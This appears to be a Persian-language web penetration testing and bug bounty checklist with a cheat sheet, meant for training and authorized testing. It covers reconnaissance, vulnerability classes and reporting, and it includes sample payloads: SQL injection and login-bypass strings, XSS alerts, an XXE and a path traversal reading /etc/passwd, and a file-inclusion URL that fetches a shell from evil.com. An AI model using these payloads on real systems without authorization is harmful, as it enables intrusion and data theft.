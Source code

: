 # checklist bug bounty

برای پیشبرد پروژه تست نفوذ وب و تهیه گزارش کامل و حرفه‌ای، ترکیبی از چک‌لیست (Checklist) و برگه تقلب (Cheat Sheet) بسیار موثر است. در ادامه یک چک‌لیست جامع همراه با نکات کلیدی و برگه تقلب برای تست نفوذ وب ارائه می‌کنم که می‌توانید به عنوان راهنما و مرجع در طول تست استفاده کنید.

چک‌لیست جامع تست نفوذ وب (Checklist)
1. قبل از شروع تست نفوذ
تعیین دامنه و محدوده تست (Scope) 

تعیین نوع تست (Black-box, Gray-box, White-box) و دسترسی‌ها

دریافت مجوز قانونی و مستندات لازم

تعیین معیارهای موفقیت و اهداف تست

آماده‌سازی ابزارها و محیط تست (Burp Suite, Nmap, SQLMap و غیره)

2. جمع‌آوری اطلاعات (Reconnaissance)
کشف زیردامنه‌ها (Subdomain Discovery) با ابزارهایی مثل subfinder، Amass

شناسایی فناوری‌ها و CMS (مثلاً وردپرس، جوملا)

اسکن پورت‌ها و سرویس‌ها با Nmap

جمع‌آوری اطلاعات از فایل‌های robots.txt، sitemap.xml

بررسی رکوردهای DNS و WHOIS

3. شناسایی آسیب‌پذیری‌های رایج
تست SQL Injection با SQLMap و تست دستی

تست XSS (Reflected, Stored, DOM-based) با Burp Suite و فازی کردن ورودی‌ها

تست CSRF و بررسی توکن‌های امنیتی

تست Authentication و Authorization (شامل افزایش دسترسی، Account Takeover)

بررسی آسیب‌پذیری‌های File Upload و Remote Code Execution

تست Open Redirect و SSRF

بررسی آسیب‌پذیری‌های مربوط به Session و Cookie

تست امنیت APIها و Web Services (Authentication, Rate Limiting, JWT) 

بررسی تنظیمات امنیتی سرور و HTTP Headers (CSP, HSTS, X-Frame-Options)

4. تحلیل و بهره‌برداری (Exploitation)
استفاده از ابزارهای خودکار و تست‌های دستی برای بهره‌برداری از آسیب‌پذیری‌ها

ثبت دقیق مراحل و نتایج تست‌ها

بررسی امکان دسترسی غیرمجاز به داده‌ها یا سیستم‌ها

5. گزارش‌دهی و پیشنهادات
تهیه گزارش جامع شامل شرح آسیب‌پذیری‌ها، نحوه کشف، ریسک و راهکارهای رفع 

ارائه راهکارهای امنیتی و پیشنهادات بهینه‌سازی

مستندسازی تست‌ها و آماده‌سازی برای بازبینی

برگه تقلب (Cheat Sheet) مهم تست نفوذ وب
موضوع	نکات کلیدی و دستورات مهم	ابزار پیشنهادی
===>>> SQL Injection	تست پارامترهای GET/POST، استفاده از sqlmap -u URL	SQLMap, Burp Suite

===>>> XSS	تزریق <script>alert(1)</script>، تست Stored و Reflected	Burp Suite, OWASP ZAP

===>>> CSRF	حذف توکن CSRF، تغییر هدر Origin/Referer	Burp Suite Repeater

===>>> Authentication	تست Brute Force، بررسی MFA، افزایش دسترسی افقی/عمودی	Hydra, Burp Suite

===>>> Subdomain Discovery	subfinder -d example.com، جستجو در crt.sh	Subfinder, Amass

===>>> Directory/Files	استفاده از wordlist برای fuzzing دایرکتوری‌ها	Dirbuster, ffuf

===>>> HTTP Headers	بررسی وجود HSTS, CSP, X-Frame-Options	curl, Burp Suite

===>>> SSRF	تزریق آدرس‌های داخلی، استفاده از Burp Collaborator	Burp Suite, curl

===>>> Open Redirect	تست پارامترهای redirect، تغییر URL	Burp Suite

===>>> Session Management	بررسی HttpOnly, Secure، تست Session Fixation	Burp Suite, OWASP ZAP

===>>> API Security	تست Authentication، Rate Limiting، JWT	Postman, Burp Suite
نکات مهم برای موفقیت در تست نفوذ وب
ترکیب تست‌های خودکار و دستی برای پوشش کامل آسیب‌پذیری‌ها ضروری است .

مستندسازی دقیق هر مرحله به گزارش‌نویسی بهتر کمک می‌کند.

تمرکز بر فاز جمع‌آوری اطلاعات (Recon) که بخش عمده موفقیت تست را تضمین می‌کند .

آموزش و به‌روزرسانی مداوم با منابع فارسی و انگلیسی معتبر.

رعایت اخلاق حرفه‌ای و قانونی در تمام مراحل تست.

============================================================


برای تهیه یک چک‌لیست جامع باگ‌بانتی (Bug Bounty) که بر اساس آسیب‌پذیری‌های رایج و تکنیک‌های مورد استفاده توسط هکرهای موفق طراحی شده باشد، می‌توانید از این لیست استفاده کنید. این چک‌لیست بر اساس تجربیات هکرهای برتر و آسیب‌پذیری‌های پردرآمد در برنامه‌های باگ‌بانتی تنظیم شده است:

چک‌لیست جامع باگ‌بانتی برای کشف آسیب‌پذیری‌های پردرآمد
۱. تزریق (Injection)
تزریق SQL (SQLi): تست پارامترهای GET/POST، هدرها و کوکی‌ها با ', ", OR 1=1--, UNION SELECT

تزریق NoSQL: تست در API‌های مبتنی بر MongoDB با {"$ne": ""}, {"$gt": ""}

تزریق فرمان (Command Injection): تست ورودی‌های سیستم با ;, &&, |, $(command)

تزریق XML (XXE): آپلود فایل‌های XML حاوی <!ENTITY xxe SYSTEM "file:///etc/passwd">

۲. احراز هویت و مدیریت نشست (Authentication & Session)
نقص در احراز هویت: تست Bypass لاگین با admin'--, admin' OR '1'='1'--

مسائل JWT: تست توکن‌های JWT با تغییر الگوریتم به none یا دستکاری کلیدها

نشست ثابت (Session Fixation): بررسی امکان استفاده از یک نشست ثابت برای کاربران دیگر

Brute Force: تست حمله Brute Force روی صفحات لاگین با ابزارهایی مانند Burp Intruder یا Hydra

۳. کنترل دسترسی (Access Control)
IDOR (Insecure Direct Object Reference): تغییر پارامترهای ID در URL (مثلاً /user?id=123 به id=124)

Bypass مسیرها (Path Traversal): تست ../../etc/passwd در پارامترهای فایل

CORS Misconfiguration: بررسی هدر Access-Control-Allow-Origin برای اجازه دسترسی از دامنه‌های غیرمجاز

۴. امنیت سمت کلاینت (Client-Side)
XSS (Cross-Site Scripting): تست <script>alert(1)</script>, <img src=x onerror=alert(1)>

DOM-based XSS: تست تغییر مقادیر در document.location.hash یا eval()

CSRF (Cross-Site Request Forgery): بررسی عدم وجود توکن CSRF در فرم‌های حساس

۵. مسائل امنیتی API
نقص در اعتبارسنجی API: تست Endpointهای بدون احراز هویت

محدود نبودن نرخ درخواست (Rate Limiting): تست ارسال درخواست‌های مکرر برای بررسی امکان DDoS یا Bruteforce

GraphQL Injection: تست Queryهای مخرب در GraphQL مانند {__schema{types{name}}}

۶. مسائل سرور و میزبان (Server-Side)
SSRF (Server-Side Request Forgery): تست URLهای داخلی مانند http://localhost/admin

RCE (Remote Code Execution): تست آپلود فایل‌های مخرب (مثلاً .php, .jsp)

LFI/RFI (Local/Remote File Inclusion): تست ?page=../../../etc/passwd یا ?page=http://evil.com/shell.txt

۷. مسائل منطق کسب‌وکار (Business Logic)
تغییر قیمت در سبد خرید: دستکاری مقدار price در درخواست‌های POST

سوءاستفاده از کوپن‌ها: تست کوپن‌های قابل حدس یا Brute Force

Race Condition: تست خرید همزمان با چند درخواست برای سوءاستفاده از محدودیت‌ها

۸. مسائل امنیتی مدرن
WebSockets: تست عدم اعتبارسنجی در ارتباطات WebSocket

Web Cache Poisoning: تست تغییر هدرهای X-Forwarded-Host برای Poison کش سرور

HTTP Request Smuggling: تست اختلاف در تفسیر هدرها بین فرانت‌اند و بک‌اند

ابزارهای پیشنهادی برای تست:
Burp Suite (برای تست دستکاری درخواست‌ها)

OWASP ZAP (اسکنر خودکار)

SQLmap (برای تست SQLi)

Nmap (برای اسکن پورت‌ها)

FFuf (برای فازینگ مسیرها)

Postman (برای تست API)

منابع یادگیری پیشنهادی:
PortSwigger Web Security Academy (رایگان)

HackerOne Hacktivity (گزارش‌های واقعی)

Bug Bounty Playbook (کتاب راهنمای باگ‌بانتی)

با دنبال کردن این چک‌لیست و تمرین مداوم، می‌توانید آسیب‌پذیری‌های پرخطری را کشف کنید که هکرهای موفق از آن‌ها برای کسب درآمد استفاده کرده‌اند. 🚀

==================================================================================
